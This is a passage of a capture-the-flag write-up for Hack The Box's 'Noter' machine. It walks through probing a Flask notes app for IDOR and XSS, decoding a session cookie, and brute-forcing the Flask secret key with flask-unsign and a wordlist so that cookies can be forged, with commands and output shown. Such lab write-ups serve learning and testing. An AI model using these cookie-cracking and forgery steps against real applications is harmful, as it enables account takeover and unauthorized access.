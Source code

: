 ## Web application

### Looking around

The web application let the user create notes. After testing some basic SQL injection payloads in the login form I decided to just register and start using the app to see how it works and I noticed something. After creating a note a clicking in the edit button the URL is like this:
```
http://10.10.11.160:5000/edit_note/3
```
This could suggest an IDOR vulnerability but no luck with the fuzzzing, also tried some XSS or SSTI and I got something this time.

Looks like the form is URL encoding the message sent to the server and indicating the data type: `application/x-www-form-urlencoded` but the server is not really checking that the data is actually URL encoded so using Burb suite it is possible to send data without encoding. Something like:
```
<h1>hello</h1>hellohellohellohellohellohellohello
```

Is generating this note:
```
    # hello

hellohellohellohellohellohellohello
```

Looks like it is translating things to Markdown? Anyway, I guess this could lead to some kind of XSS but since the cookie is `HttpOnly` this won't really help.

### Backend tecnology and cookie secret

Looking at the header: `Werkzeug httpd 2.0.2 (Python 3.8.10)` this is probably a Flask server. Using a Flask session encoder/decoder: [https://github.com/noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager){:target="_blank"} I was able to confirm my guess:

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/HTB/Noter/flask-session-cookie-manager]
└─$ python3 flask_session_cookie_manager3.py decode -c eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoicmFwdG9yIn0.YpDXsA.rmBkWKEmp_Ona9WwTNCoMNn06lo
b'{"logged_in":true,"username":"raptor"}'
```

We can try to brute force the secret key now. Searching a bit I found this tool: [https://github.com/Paradoxis/Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign){:target="_blank"}, let's try it out using Rockyou as wordlist:

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/HTB/Noter]
└─$ flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoicmFwdG9yIn0.YpDXsA.rmBkWKEmp_Ona9WwTNCoMNn06lo" --wordlist ~/Wordlists/rockyou.txt --no-literal-eval         
[*] Session decodes to: {'logged_in': True, 'username': 'raptor'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```
This is our lucky day! We can now forge cookies using the secret key `secret123` (Both of the above tools can do it). Only one thing, we don't really know about other users so I guess we need to figure that out next.
